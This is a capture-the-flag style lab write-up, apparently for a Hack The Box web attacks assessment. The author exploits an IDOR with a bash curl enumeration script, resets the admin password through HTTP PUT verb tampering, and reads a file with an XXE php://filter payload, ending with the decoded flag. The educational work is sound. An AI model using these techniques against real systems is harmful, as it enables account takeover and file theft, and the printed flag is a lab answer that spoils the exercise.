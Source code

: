 ```yaml
---
sticker: emoji//1f578-fe0f
---
```


# Skills Assessment

### Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

![](gitbook/cybersecurity/images/Pasted%20image%2020250217220316.png)

Let's visit the web application:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217220549.png)

We can authenticate now:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217220617.png)

### Identifying IDOR

***

We get sent to this dashboard, we can see settings, messages, invites, events, account settings and statistics, if we go to `settings`, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217220735.png)

We can change our password here, let's try sending a request to burp to analyze it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217221231.png)

We get an api call to `token/74`, also, we are assigned a cookie and an `uid`, in this case, we are assigned with `uid=74`, viewing the structure of the api call, we can see that the uid is strictly related to the token, let's try changing it to another uid to check the behavior:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217221356.png)

For example, if we change it to 1, we get that token, that token is necessary for the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217221433.png)

We can see that the `reset.php` function needs the token to function, since we can enumerate the tokens for other uids rather than ours, but, how do we even know which one is meant for admin user since we can only know tokens, that's when we need to go to our `HTTP History`, in there, we can check another `GET` request being made to `/api.php/user/`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217222105.png)

Since this behaves exactly like the token request, we can change the uid and token call to check other users, for example, with number 1:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217222149.png)

### Enumerating Admin User

Now, it's time to automatize the uid search, let's begin with this bash script to enumerate users and view the uid of the admin user:

```bash
#!/bin/bash

# Target URL
TARGET="http://IP:PORT/api.php/user/"

# User-Agent
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0"

# Output file
OUTPUT_FILE="idor_results.txt"

# Clear previous results
> "$OUTPUT_FILE"

# Colored output
GREEN="\e[32m"
RED="\e[31m"
YELLOW="\e[33m"
RESET="\e[0m"

# Loop through user IDs
for uid in {1..100}; do
    RESPONSE=$(curl -s "$TARGET$uid" -H "User-Agent: $USER_AGENT")
    
    if echo "$RESPONSE" | grep -iq "admin"; then
        echo -e "${GREEN}[+] Admin Found! UID: $uid${RESET}"
        echo "$RESPONSE" | tee -a "$OUTPUT_FILE"
    fi

done

echo -e "${GREEN}[+] Enumeration complete. Results saved to $OUTPUT_FILE${RESET}"

```

After a bit, we get the following:

```bash
[+] Admin Found! UID: 52

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We found the right uid, let's visualize the token:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230027.png)

Our admin token is:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

If we try to reset the password, this happens:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230135.png)

We're getting `Access Denied`, we can bypass this restriction with `HTTP Verb Tampering`.

### HTTP Verb Tampering

***

To begin with, change the request to `PUT`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230238.png)

Now we get something different, let's adjust the parameters:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230311.png)

And now we were able to successfully change the password using `PUT` verb, we can now log as the admin user:

```ad-note
`a.corrales`:`test`
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230426.png)

### Identifying Admin Functionalities

***

Nice, we are now inside the admin panel and we got a new functionality: `Add Event`, let's check the request for this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230553.png)

Let's create a simple test event:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230641.png)

Now, check the request:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230722.png)

We have a XML form, if we send the request, this is the response we're given:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230757.png)

It seems like the `name` property gets injected directly to the response, let's change it to something else and check:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217230848.png)

If we inject `whoami`, we can see it indeed goes through, we do not get the output of the command but it helps us understand that it gets reflected in the response:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217231014.png)

Now, knowing this, we can try exploiting XXE.

### Exploiting XXE

***

We can read the contents of our flag using the following payload:

```xml
<!DOCTYPE name [

  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&xxe;</name>
            <details>1</details>
            <date>0001-11-11</date>
            </root>
```

In this case, since we know the `name` is vulnerable, we can define an entity and then use it, this displays the following:

```
HTTP/1.1 200 OK

Date: Tue, 18 Feb 2025 04:41:32 GMT

Server: Apache/2.4.41 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding

Content-Length: 86

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

We got the flag in base64, we can even use burp's decoder to quickly decode that:

![](gitbook/cybersecurity/images/Pasted%20image%2020250217234359.png)

That outputs:

```
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Flag is:

```
HTB{m4573r_w3b_4774ck3r}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250217234432.png)
